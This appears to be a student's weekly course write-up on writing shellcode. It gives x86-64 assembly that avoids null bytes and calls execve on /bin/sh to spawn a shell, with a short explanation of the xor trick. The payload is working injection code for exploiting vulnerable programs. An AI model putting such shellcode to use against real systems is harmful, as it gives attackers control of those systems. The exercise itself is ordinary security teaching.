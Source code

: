 08# Shell Code - Week 8 

The purpose of this week was to write shellcode or code that we might inject into a program that when read will execute
and potentailly allow control of a system in this case we spawn a shell. 

``` asm
.global _start
.section .text 
_start:
    //xor to create the null values without null directly
    xor %rax, %rax 
    push %rax
    mov %rsp, %rsi
    mov %rsp, %rdx
    //load /bin/sh encoded in little endian
    mov $0x68732F6E69622F, %rbx
    push %rbx
    mov %rsp, %rdi  
    //load 3b for the execve call
    mov $0x3B, %rax  
    syscall
```

![image](https://user-images.githubusercontent.com/44854053/234171026-28f216c0-c759-4710-a368-66fe23bdf3eb.png)

![bytecountscript](./shellcode/bytecount.py)


In order to avoid null bytes the first thing I did was use xor to create a zero then stored that in the adress of that in the rsp.
